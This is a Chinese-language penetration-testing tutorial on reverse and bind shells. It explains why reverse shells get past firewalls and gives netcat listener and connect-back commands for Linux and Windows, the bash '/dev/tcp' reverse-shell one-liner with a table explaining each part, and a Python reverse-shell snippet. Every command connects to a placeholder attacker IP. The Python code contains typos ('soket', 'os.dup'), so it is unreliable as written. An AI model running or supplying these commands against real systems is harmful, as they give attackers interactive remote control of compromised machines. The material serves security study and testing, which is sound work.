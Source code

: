# 反弹shell

* 反弹shell使用场景:防火墙会阻止客户端主动连接服务器，但是服务器连接客户端通过防火墙时，可以穿透到达客户端

## nc

netcat简称nc，被称为渗透测试中的瑞士军~~~~刀。
它可以用作端口监听、端口扫描、远程文件传输、远程shell等

* 语法:`nc [-hlnruz][-g 网关][-G 指向器数目][-i 延迟秒数][-o 输出文件][-p 通信端口][-s 来源IP][-v 次数][-w 超时秒数][主机名称][通信端口...]`

* 反向shell
  假设在目标主机找到了RCE漏洞，可以在目标主机上用nc发出命令启动反向shell
  ![](https://storage.tttang.com/media/attachment/2022/10/29/082a3402-fa0e-4082-8637-b1d5e8492103.png)

1. 在攻击机或vps上监听本地端口`nc -lvp 监听端口号`
2. 靶机命令，连接攻击机的监听端口`nc 攻击机ip 监听端口号 -e /bin/bash` #linux
   `nc 攻击机ip 监听端口号 -e c:\windows\system32\cmd.exe` #windows
   -e:将bash shell 发回主机

* 正向shell
  正向shell时在目标机使用nc将bash shell绑定到特定端口，攻击机nc连接到此端口
   ![](https://storage.tttang.com/media/attachment/2022/10/29/09a20387-a532-4ea8-9c1a-0c5c8a640cf9.png)

### **bash反弹shell**

目标主机可能没有nc或不支持-e参数时，就需要以下方式反弹shell

* 攻击机监听:`nc -lvvp 端口`
* 目标主机:`bash -i >& /dev/tcp/攻击机ip/监听端口号 0>&1`

>| bash -i          | 产生一个交互式shell                                          |
>| ---------------- | ------------------------------------------------------------ |
>| &                | 将&前后内容相结合重定向(>)至后者                             |
>| /dev/tcp/ip/port | 对socket网络连接的抽象                                       |
>| 0>&1             | 将标准输入和标准输入内容相结合，然后重定向至标准输出内容。0标准输入、1标准输出、2错误输出 |

## 其他反弹shell方式

### python反弹shell

```py
import soket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机IP",监听端口号));
os.dup(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

```
